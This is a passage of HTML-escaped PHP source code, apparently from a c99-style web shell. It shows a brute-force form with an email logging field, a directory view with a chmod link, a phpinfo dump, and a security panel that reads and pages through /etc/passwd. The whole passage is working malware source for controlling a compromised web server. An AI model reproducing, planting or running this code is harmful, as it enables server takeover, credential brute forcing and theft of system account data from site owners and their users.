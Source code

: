          "&lt;tr&gt;&lt;td&gt;Logging to e-mail:&lt;/td&gt;&lt;td&gt;&lt;input type=\"text\" name=\"fqb_logemail\" value=\"".$log_email."\" size=\"".(strlen($logemail)+2*(strlen($logemail)/10))."\"&gt;&lt;/td&gt;&lt;/tr&gt;".
         "&lt;tr&gt;&lt;td colspan=2&gt;&lt;input type=submit name=submit value=\"Brute\"&gt;&lt;/form&gt;";
  }
  echo "&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;/center&gt;";
}
}
if ($act == "d") {
  if (!is_dir($d)) { echo "&lt;center&gt;&lt;b&gt;$d is a not a Directory!&lt;/b&gt;&lt;/center&gt;"; }
  else {
    echo "&lt;b&gt;Directory information:&lt;/b&gt;&lt;table border=0 cellspacing=1 cellpadding=2&gt;";
    if (!$win) {
      echo "&lt;tr&gt;&lt;td&gt;&lt;b&gt;Owner/Group&lt;/b&gt;&lt;/td&gt;&lt;td&gt; ";
      $ow = posix_getpwuid(fileowner($d));
      $gr = posix_getgrgid(filegroup($d));
      $row[] = ($ow["name"]?$ow["name"]:fileowner($d))."/".($gr["name"]?$gr["name"]:filegroup($d));
    }
    echo "&lt;tr&gt;&lt;td&gt;&lt;b&gt;Perms&lt;/b&gt;&lt;/td&gt;&lt;td&gt;&lt;a href=\"".$surl."act=chmod&d=".urlencode($d)."\"&gt;&lt;b&gt;".view_perms_color($d)."&lt;/b&gt;&lt;/a&gt;&lt;tr&gt;&lt;td&gt;&lt;b&gt;Create time&lt;/b&gt;&lt;/td&gt;&lt;td&gt; ".date("d/m/Y H:i:s",filectime($d))."&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;&lt;b&gt;Access time&lt;/b&gt;&lt;/td&gt;&lt;td&gt; ".date("d/m/Y H:i:s",fileatime($d))."&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;&lt;b&gt;MODIFY time&lt;/b&gt;&lt;/td&gt;&lt;td&gt; ".date("d/m/Y H:i:s",filemtime($d))."&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;";
  }
}
if ($act == "phpinfo") {@ob_clean(); phpinfo(); exshexit();}
if ($act == "security") {
  echo "&lt;div class=barheader&gt;.: Server Security Information :.&lt;/div&gt;\n".
       "&lt;table&gt;\n".
       "&lt;tr&gt;&lt;td&gt;Open Base Dir&lt;/td&gt;&lt;td&gt;".$hopenbasedir."&lt;/td&gt;&lt;/tr&gt;\n";
  echo "&lt;td&gt;Password File&lt;/td&gt;&lt;td&gt;";
  if (!$win) {
    if ($nixpasswd) {
      if ($nixpasswd == 1) {$nixpasswd = 0;}
      echo "*nix /etc/passwd:&lt;br&gt;";
      if (!is_numeric($nixpwd_s)) {$nixpwd_s = 0;}
      if (!is_numeric($nixpwd_e)) {$nixpwd_e = $nixpwdperpage;}
